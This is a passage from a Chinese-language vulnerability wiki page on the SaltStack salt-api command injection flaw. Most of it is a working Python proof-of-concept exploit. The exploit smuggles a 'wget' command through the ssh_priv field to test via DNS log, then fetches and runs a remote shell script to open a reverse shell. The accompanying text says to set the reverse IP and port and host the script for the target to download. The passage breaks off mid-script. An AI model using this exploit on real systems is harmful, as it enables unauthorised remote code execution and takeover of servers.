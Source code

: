 监听端口，使用 **/bin/bash** 运行文件 反弹shell

![](http://wikioss.peiqi.tech/vuln/salt-14.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

> [!NOTE]
>
> POC目录中 peiqi.sh文件 需要更改反弹ip,port,并上传到服务器让目标进行下载
>
> DNS有响应则代表可能有漏洞，便可以进行反弹shell

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: SaltStack Version < 2019.2.4 & < 3000.2                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> xxx.dnslog.cn                                     \033[0m')
    print('+  \033[36mFile_addr   >>> http://xxx.xxx.xxx/cmd.sh                         \033[0m')
    print('+  \033[36mFile_name   >>> cmd.sh                                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, dnslog):
    vuln_url = target_url + "/run"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|wget http://{}".format(dnslog)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 wget http://{} \033[0m".format(dnslog))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 请查看 Dnslog响应 \033[0m")
            while True:
                Chois = input("\033[35m是否反弹 Shell(Y/N) >>> \033[0m")
                if Chois == "Y" or Chois == "y":
                    File_addr = input("\033[35mFile_addr >>> \033[0m")
                    File_name = input("\033[35mFile_name >>> \033[0m")
                    POC_2(target_url, File_addr, File_name)
                else:
                    sys.exit(0)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
```